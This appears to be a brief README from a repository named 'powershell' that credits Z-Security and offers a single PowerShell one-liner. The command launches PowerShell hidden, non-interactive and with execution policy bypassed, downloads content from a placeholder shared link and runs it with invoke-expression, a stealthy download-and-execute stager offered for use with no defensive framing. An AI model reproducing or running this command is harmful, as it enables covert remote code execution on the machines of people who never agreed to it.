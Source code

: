 # powershell
This tool was made by Z-Security 😘. I modify it for my personal work 



link :  powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
